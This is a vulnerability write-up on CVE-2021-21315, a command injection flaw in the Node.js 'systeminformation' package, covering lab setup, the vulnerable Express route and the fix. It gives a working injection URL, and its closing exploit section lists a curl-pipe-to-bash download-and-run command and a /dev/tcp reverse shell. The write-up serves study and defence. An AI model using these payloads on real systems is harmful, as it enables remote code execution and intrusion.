








# CVE-2021-21315 Vulnerability Analysis

Author: H3rmesk1t

Data: 2022.05.16

# Vulnerability Information
```
The System Information Library for Node.JS (npm package "systeminformation") is an open source collection of functions to retrieve detailed hardware, system and OS information. In systeminformation before version 5.3.1 there is a command injection vulnerability. Problem was fixed in version 5.3.1. As a workaround instead of upgrading, be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected.
```

<div align=center></div>

# Vulnerability reappears
First download the affected `Node.js`, using `v12.18.4`.

```bash
wget https://nodejs.org/dist/v12.18.4/node-v12.18.4-linux-x64.tar.xz

tar -xvf node-v12.18.4-linux-x64.tar.xz
```

<div align=center></div>

And change the file name to `nodejs`, and move the file to the `/usr/local/sbin/` directory.

```bash
mv node-v12.18.4-linux-x64 nodejs
sudo mv nodejs/ /usr/local/sbin/
```

<div align=center></div>

Then replace the soft connections of the files `node` and `npm`, and run `node.js` to see if the configuration is successful.

```bash
sudo ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
sudo ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

<div align=center></div>

Download the corresponding [Vulnerability Environment] (https://github.91chi.fun/https://github.com/H3rmesk1t/CVE-2021-21315-ENV.git), and run the `index.js` file.

<div align=center></div>

Execute `PoC`:

```
http://192.168.249.143:8000/api/getServices?name[]=$(echo 'whoami' > exp.sh)
```

<div align=center></div>

<div align=center></div>

# Vulnerability Analysis
Vulnerability Core Code:

```javascript
app.get('/api/getServices', (req, res) => {
  const queryData = req.query.name
  
  si.services(queryData).then((data) => {
  res.json(data);
  });
 
});
```

It is not difficult to see from the repair code that before calling further commands, the parameters will be cleaned to check whether they are string data types, and additionally check whether the parameter has been contaminated at any time. This operation does not exist in the code before repair. Attackers can use the form of an array to inject `Payload` into unfiltered parameters to execute system commands. It is also mentioned in the security announcement that service parameters passed to `si.inetLatency()`, `si.inetChecksite()`, `si.services()`, `si.processLoad()`, etc. must be checked or cleaned, and only strings are allowed and any array is rejected.

<div align=center></div>

# Vulnerability Exploit

The existence of a code injection vulnerability in `systeminformation` means that an attacker can execute system commands by carefully injecting payloads within uninitialized parameters used by the component, for example:
 - Upload internal files: for example, `index.js` or other files.
 - Download and execute the script `curl -s http://server/path/exp.sh | bash /dev/stdin arg1 arg2`.
 - Reverse `shell`: `bash -i >& /dev/tcp/ip/port 0>&1`.
 - ......